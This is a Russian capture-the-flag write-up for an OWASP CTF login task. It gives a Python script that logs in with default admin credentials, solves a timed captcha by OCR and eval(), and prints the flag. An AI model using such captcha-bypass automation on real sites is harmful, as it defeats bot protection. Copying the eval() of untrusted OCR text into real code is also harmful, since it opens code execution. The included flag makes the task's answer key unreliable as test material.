 # Vinnytsia (13.owaspctf.gq)

На главной странице логин форма. Комбинация `admin:admin` вызывает появление простой математической капчи с таймером в несколько секунд.

Суть задания в автоматизации ввода капчи, хотя если выпадут хорошие числа можно успеть ввести капчу и вручную.

`poc.py`:

```
#!/usr/bin/python2
# -*- coding: utf-8 -*-

import os
import sys
import requests
import re
import pytesseract

url = 'http://13.owaspctf.gq'
ctf = requests.Session()

login    = 'admin'
password = 'admin'

def poc():
    ctf.get(url)
    response = ctf.post(url, data={'login':login,'password':password})
    if 'img.php' not in response.text:
        raise
    image = ctf.get(url + '/img.php', stream=True).content
    open('./captcha.png', 'wb').write(image)
    captcha = pytesseract.image_to_string('./captcha.png', config='-c tessedit_char_whitelist=0123456789()+-*/ psm 100')
    assert( re.search(r'^\((\d+)\+(\d+)\)\*(\d+)-(\d+)$', captcha) )

    #print('{} = {}'.format(captcha, eval(captcha)))
    response = ctf.post(url, data={'login':login,'password':password,'captcha':eval(captcha)}, allow_redirects=False)
    if 'FLAG' not in response.text:
        raise
    match = re.search(r'(FLAG\{[^}]+\})', response.text)
    if not match:
        raise
    print(match.group(1))

if __name__ == '__main__':
    poc()
```

`FLAG{completely_automated_public_turing_test}`
